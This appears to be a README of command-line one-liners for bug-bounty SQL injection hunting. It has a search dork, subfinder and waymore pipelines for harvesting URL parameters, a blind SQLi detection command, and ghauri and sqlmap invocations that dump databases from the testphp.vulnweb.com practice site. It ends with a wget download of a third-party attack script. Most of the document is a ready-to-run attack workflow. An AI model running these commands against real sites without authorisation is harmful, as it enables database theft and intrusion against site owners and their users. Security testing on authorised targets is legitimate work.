 ## Dork

```
site:.com & ext:php | ext:asp | ext:aspx | ext:jsp | ext:jspx & intitle:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>
<a href="https://github.com/HackShiv/OneDorkForAll/blob/main/dorks/Bug%20Bounty%20dork.txt" >More bug bounty dorks</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```
<a href="https://github.com/freelancermijan/.gf/blob/main/sqli.json">All SQLi Parameters</a>

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```
<a href="https://github.com/coffinsp/payloads">More payloads</a>

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```

#### Install Automation script

```
wget https://raw.githubusercontent.com/freelancermijan/my-oneliners/refs/heads/main/sqli/sqli.sh
sudo chmod +x ./*.sh
```
